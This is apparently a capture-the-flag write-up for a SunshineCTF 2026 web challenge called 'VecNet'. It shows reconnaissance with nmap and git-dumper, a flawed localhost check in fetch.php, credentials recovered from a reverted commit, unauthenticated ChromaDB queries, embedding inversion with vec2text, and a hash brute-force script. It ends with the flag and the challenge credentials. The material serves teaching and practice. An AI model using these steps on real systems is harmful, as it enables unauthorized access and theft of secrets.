







## Challenge

> VecNet makes use of AI embedding technologies to speed up your database needs. Get started today!

Given: `https://vec.web.2026.sunshinectf.games/`.

## Stage 1 - Initial Recon

At first, when we open the website, we can see this interface.



The only button that redirects us to another page is the "Webmail Access" button in the top-right corner. When we click it, we are redirected to a simple authentication page that listens on port 8025. (If you see "Secure Connection Failed," just remove the "s" from "https".)



After trying `admin:admin` and failing, we can safely conclude that the credentials here cannot be easily guessed. The open 8025 port gave me an idea that there might be other services running on the server, so I ran a quick nmap scan to check for any other open ports.

```sh
$ sudo nmap vec.web.2026.sunshinectf.games -v
...
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
8000/tcp open  http-alt
...
```

We found another open port: 8000. However, the page did not provide much information when opened.



I decided to leave this in my notes and move on to find some other clues.

Considering all the resources available to us, I decided to check the main page for more useful information. I looked at common sources that could reveal details about the website, such as `robots.txt` and `sitemap.xml`. All attempts were unsuccessful until I tried checking the `.git` folder.



## Stage 2 - Git Recon

Jackpot! The `.git` folder is exposed. Using [git-dumper](https://github.com/arthaud/git-dumper), we are able to download the entire repository. Immediately, without checking any git commands, we can see these files:

```sh
$ ls -la
total 36
drwxrwxr-x 3 kali kali 4096 Sep 28 11:15 .
drwxrwxr-x 5 kali kali 4096 Sep 28 11:15 ..
-rw-rw-r-- 1 kali kali 1314 Sep 28 11:15 fetch.php
drwxrwxr-x 7 kali kali 4096 Sep 28 11:15 .git
-rw-rw-r-- 1 kali kali   11 Sep 28 11:15 .gitignore
-rw-rw-r-- 1 kali kali  315 Sep 28 11:15 .htaccess
-rwxrwxr-x 1 kali kali 8754 Sep 28 11:15 index.html
```

In `.htaccess`, we can see that there is a file called `specs.7z`, which is denied direct access to.

```
...
AddType application/x-httpd-php .php

# deny direct access to specs.7z
<FilesMatch "^specs\.7z$">
    Require local
    Require ip 127.0.0.1
</FilesMatch>
```

So let's check the `fetch.php` file to see if we can find any clues about it. After removing the parts of the code that do not matter to us, we are left with this snippet:

```php
<?php
...
const ALLOWED_URL = 'http://localhost/files/specs.7z';
const ARCHIVE_PATH = '/var/www/html/files/specs.7z';
...

if (!isset($_GET['url']) || !is_string($_GET['url']) || !hash_equals(ALLOWED_URL, $_GET['url'])) {
    fail_request(403, 'endpoint not allowed');
}
...
$size = @filesize(ARCHIVE_PATH);
...
header('Content-Type: application/x-7z-compressed');
header('Content-Disposition: attachment; filename="specs.7z"');
header('Content-Length: ' . (string) $size);
header('X-Content-Type-Options: nosniff');
...
```

We see that `$_GET['url']` is being compared to `ALLOWED_URL`, which is set to `http://localhost/files/specs.7z`. This means they tried to implement protection to allow access only from localhost, but they did it wrong. We can get `specs.7z` by sending a request to `fetch.php` with the `url` parameter set to `http://localhost/files/specs.7z`.



When we open it, we can see the `flag.txt` file inside the archive, but we cannot access it because the `specs.7z` file is password protected.

But remember, we have not checked the git logs yet! Let's do that to see whether there were any commits that could reveal information about the password.

```sh
$ git log 
commit e6a00740509b9f621b16980b77913206c43fd08c (HEAD -> master)
Author: Mike <mike@vecnet.io>
Date:   Sat Sep 26 19:10:42 2026 +0000

    add htaccess

commit 130e195fc0a5db75500e229020b13ee45d420500
Author: Mike <mike@vecnet.io>
Date:   Sat Sep 26 19:10:42 2026 +0000

    REVERT: do not commit secrets

commit c3cd120180b3b7c5cbb4dd168311a6f643e74d98
Author: Mike <mike@vecnet.io>
Date:   Sat Sep 26 19:10:42 2026 +0000

    add internal service config

commit 517ac7236e3c02c92f0a3dbd52781cb4358023b1
Author: Mike <mike@vecnet.io>
Date:   Sat Sep 26 19:10:42 2026 +0000

    add embed preview endpoint

commit 3e02a92698473dd29916cdcd94287ac35452b063
Author: Mike <mike@vecnet.io>
Date:   Sat Sep 26 19:10:42 2026 +0000

    initial site deploy
```

Secrets! We love secrets, don't we? Let's check the commit `c3cd120180b3b7c5cbb4dd168311a6f643e74d98` to see what secrets were added and then reverted.

```sh
$ git checkout c3cd120180b3b7c5cbb4dd168311a6f643e74d98
...
$ ls -la
total 32
drwxrwxr-x 3 kali kali 4096 Sep 28 11:58 .
drwxrwxr-x 5 kali kali 4096 Sep 28 11:15 ..
-rw-rw-r-- 1 kali kali  202 Sep 28 11:58 config.php
-rw-rw-r-- 1 kali kali 1314 Sep 28 11:15 fetch.php
drwxrwxr-x 7 kali kali 4096 Sep 28 11:58 .git
-rw-rw-r-- 1 kali kali    0 Sep 28 11:58 .gitignore
-rwxrwxr-x 1 kali kali 8754 Sep 28 11:15 index.html
```

There it is! The `config.php` file. Let's open it to see what secrets are inside.

```php
<?php
define('MAIL_ADMIN_URL',  'http://127.0.0.1:8025');
define('MAIL_ADMIN_USER', 'vecadmin');
define('MAIL_ADMIN_PASS', 'Emb3dPass2026!');
define('INTERNAL_API_KEY', 'vsk_live_aX92kLmNpQrStUvWxYz');
```

There you go. Now we have credentials for Webmail access. Let's try to log in with `vecadmin:Emb3dPass2026!`.



## Stage 3 - ChromaDB

After checking all the emails, we can infer four useful pieces of information (no screenshots this time, because it looks awful and I can't fit all the text in one image).

1. A ChromaDB service is running, and after some googling we can see that its default port is 8000, which is the port we found open in the nmap scan.
2. There is a link to a [dev.to](https://dev.to/tiamatenity/vector-database-breaches-how-embeddings-expose-your-sensitive-data-21a9) blog post about ChromaDB exposing sensitive data through embeddings.
3. We can use `vec2text` to convert embeddings to text.
4. Greg Roberts said that the vec2text model has the following specifications, which will help us later:
   - `num_steps=4`
   - `sequence_beam_width=5`

After a bit of googling, we find this website: https://api.trychroma.com/docs/. It helps us understand how to use the ChromaDB API. We can see that we need some information about the tenant and database name to be able to query the database. After a bit more googling, we find that the default tenant is `default_tenant` and the default database name is `default_database`.

So let's construct our queries and see what we can get from the database.

```sh
$ curl -s -X GET http://vec.web.2026.sunshinectf.games:8000/api/v2/tenants/default_tenant/databases/default_database/collections

[{"id":"455b419b-9668-4e7e-9f44-7ed62396f184","name":"VecNetDB","configuration_json":{"hnsw":{"space":"l2","ef_construction":100,"ef_search":100,"max_neighbors":16,"resize_factor":1.2,"sync_threshold":1000},"spann":null,"embedding_function":null},"schema":{"defaults":{"string":{"fts_index":{"enabled":false,"config":{}},"string_inverted_index":{"enabled":true,"config":{}}},"float_list":{"vector_index":{"enabled":false,"config":{"space":"l2","hnsw":{"ef_construction":100,"max_neighbors":16,"ef_search":100,"num_threads":8,"batch_size":100,"sync_threshold":1000,"resize_factor":1.2}}}},"sparse_vector":{"sparse_vector_index":{"enabled":false,"config":{"embedding_function":{"type":"unknown"},"bm25":false}}},"int":{"int_inverted_index":{"enabled":true,"config":{}}},"float":{"float_inverted_index":{"enabled":true,"config":{}}},"bool":{"bool_inverted_index":{"enabled":true,"config":{}}}},"keys":{"embedding_fn":{"string":{"fts_index":{"enabled":false,"config":{}},"string_inverted_index":{"enabled":true,"config":{}}}},"#embedding":{"float_list":{"vector_index":{"enabled":true,"config":{"space":"l2","source_key":"#document","hnsw":{"ef_construction":100,"max_neighbors":16,"ef_search":100,"num_threads":8,"batch_size":100,"sync_threshold":1000,"resize_factor":1.2}}}}},"#document":{"string":{"fts_index":{"enabled":true,"config":{}},"string_inverted_index":{"enabled":false,"config":{}}}},"type":{"string":{"fts_index":{"enabled":false,"config":{}},"string_inverted_index":{"enabled":true,"config":{}}}}}},"metadata":null,"dimension":768,"tenant":"default_tenant","database":"default_database","log_position":0,"version":0}]  
```

We can see that the collection name is `VecNetDB`, and the ID is `455b419b-9668-4e7e-9f44-7ed62396f184`. Now let's query the collection to see what data is stored in it. After several unsuccessful attempts, we can finally retrieve information about the data stored in the collection with this query.

```sh
$ curl -X POST http://vec.web.2026.sunshinectf.games:8000/api/v2/tenants/default_tenant/databases/default_database/collections/455b419b-9668-4e7e-9f44-7ed62396f184/get -d '{"limit": 67}'
{"ids":["user_password_requirements","user_hash_sha256","magic_string"],"embeddings":null,"documents":[null,"d8dd241199d2617765d7613fdd1df5358297b55f258647fe463de586bbfe3ebf","sunshinectf8_"],"uris":null,"metadatas":[{"embedding_fn":"jxm/gtr__nq__32","type":"embedding_only"},{"embedding_fn":"jxm/gtr__nq__32","type":"plaintext"},{"embedding_fn":"jxm/gtr__nq__32","type":"plaintext"}],"include":["documents","metadatas"]}                 
```

This query gave us a lot of information. We can see that the `user_hash_sha256` document is probably the hash of the password for the `specs.7z` file. The hash is `d8dd241199d2617765d7613fdd1df5358297b55f258647fe463de586bbfe3ebf`. We can also see that there is a `magic_string` involved, which is `sunshinectf8_`. The embedding function used is `jxm/gtr__nq__32`. After some googling, we can see that this embedding function is used to convert text to embeddings, but we need the opposite: we need to convert embeddings back to text. Now let's get our vector for the `user_hash_sha256` document and then convert it to text.

```sh
$ curl -s -X POST http://vec.web.2026.sunshinectf.games:8000/api/v2/tenants/default_tenant/databases/default_database/collections/455b419b-9668-4e7e-9f44-7ed62396f184/get -d '{"ids": ["user_password_requirements"], "include": ["embeddings"]}' 
{"ids":["user_password_requirements"],"embeddings":[[0.013766201,0.014558369,...]],"documents":null,"uris":null,"metadatas":null,"include":["embeddings"]}
```

> Full embedding vector is here: [embedding.txt](../../assets/2026/vecnet/embedding.txt)

Now we need to convert this embedding vector to text. Because I had never used ML models before, I had to do some research and ask a common friend of ours for help (~~after all, they used AI too for the challenge, literally :D~~). And because my poor potato laptop cannot afford to run the models locally, it was a good time to make use of the free GPU provided by [Google Colab](https://colab.research.google.com/). No, this writeup is not sponsored by Google, but if they want to sponsor me, I won't say no.

First, in a Google Colab notebook, we need to install the required libraries. We can do this by running the following command:

```sh
!pip install vec2text torch
!pip uninstall -y transformers
!pip install "transformers<5.0.0"
```

Yes, I think we need to downgrade the `transformers` library to version 4.30.2 because the latest version is not compatible with the `vec2text` library.
Also, one more important thing: you might get this error if you run it in Google Colab:

```py
if device_in_context == torch.device("meta"):
    raise RuntimeError(
        "You are using `from_pretrained` with a meta device context manager or `torch.set_default_device('meta')`.\n"
        "This is an anti-pattern as `from_pretrained` wants to load existing weights.\nIf you want to initialize an "
        "empty model on the meta device, use the context manager or global device with `from_config`, or `ModelClass(config)`"
    )
```

I did not know how to fix this error, so I tried debugging it but could not find a perfect solution. I ended up commenting it out from the source code and restarting the session. After that, it worked without issues, so I will take that as a win. Now we can run the following code to convert the embedding vector to text.

```py
import torch
torch.set_default_device('cpu')
import vec2text

inversion_model = vec2text.models.InversionModel.from_pretrained(
    "jxm/gtr__nq__32", device_map='cpu')
corrector_model = vec2text.models.CorrectorEncoderModel.from_pretrained(
    "jxm/gtr__nq__32__correct", device_map='cpu')
corrector = vec2text.load_corrector(inversion_model, corrector_model)

vec = [...]

embeddings = torch.tensor([vec])
results = vec2text.invert_embeddings(
    embeddings=embeddings,
    corrector=corrector,
    num_steps=4,
    sequence_beam_width=5,
)
print("Output:")
for r in results:
    print(repr(r))
```

> Pay attention to the `num_steps` and `sequence_beam_width` parameters, which we found in the emails.

And we got this information as output:

```text
"The user's first and last initials, three special characters, followed by the magic string."
```

## Final Stage - The Key

BINGO! We got the necessary information to solve the password. The first and last initials are probably `Greg Roberts`, so the initials are `GR`. The three special characters are still unknown, but we can brute-force them. The magic string is `sunshinectf8_`. So the final password format is `GR<special_characters>sunshinectf8_`. We also have the hash of the correct password. Now we can brute-force the three special characters using a simple Python script.

```py
import hashlib
import itertools
import string

special_characters = string.punctuation
target_hash = "d8dd241199d2617765d7613fdd1df5358297b55f258647fe463de586bbfe3ebf"

combinations = itertools.product(special_characters, repeat=3)

for item in combinations:
    special_chars = ''.join(item)
    password = f"GR{special_chars}sunshinectf8_"
    password_hash = hashlib.sha256(password.encode()).hexdigest()

    if password_hash == target_hash:
        print(f"Password: {password}")
        break
```

```sh
$ python3 ./writeups/assets/2026/vecnet/bruteforce.py 
Password: GR$*#sunshinectf8_
```

Let's try to unlock the `specs.7z` file with the password `GR$*#sunshinectf8_`.



## Flag

`sun{k33p_your_emb3ddings_secur3!}`
